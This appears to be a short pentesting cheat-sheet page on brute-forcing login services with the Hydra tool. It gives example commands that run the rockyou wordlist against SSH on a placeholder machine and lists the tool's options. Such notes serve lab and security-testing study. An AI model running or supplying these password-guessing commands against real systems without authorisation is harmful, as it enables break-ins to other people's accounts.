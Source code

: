 # Bruteforce authentication services

<hr class="sl">

## Hydra

<div class="row row-cols-md-2"><div>

[Hydra](https://github.com/vanhauser-thc/thc-hydra) (6.8k ⭐) is a well-known tool to bruteforce authentication services such SSH, FTP, RTP, MySQL... It can even be used for login forms, but that's convered somewhere else.

```bash
$ rockyou=/usr/share/wordlists/rockyou.txt
# use ssh, ftp...
$ hydra -l username -P $rockyou ssh://MACHINE_IP
# alternate forms
$ hydra -l username -P $rockyou MACHINE_IP ssh
```
</div><div>

* `-l username`: try this username
* `-L file`: try a list of usernames
* `-p password`: try this password
* `-P file`: try a list of passwords
* `-C file`: instead of L/P, provide a list of "username:password"
* `-s port`: use another port
* `-t n`: use $n$ threads
* `-V`: verbose
</div></div>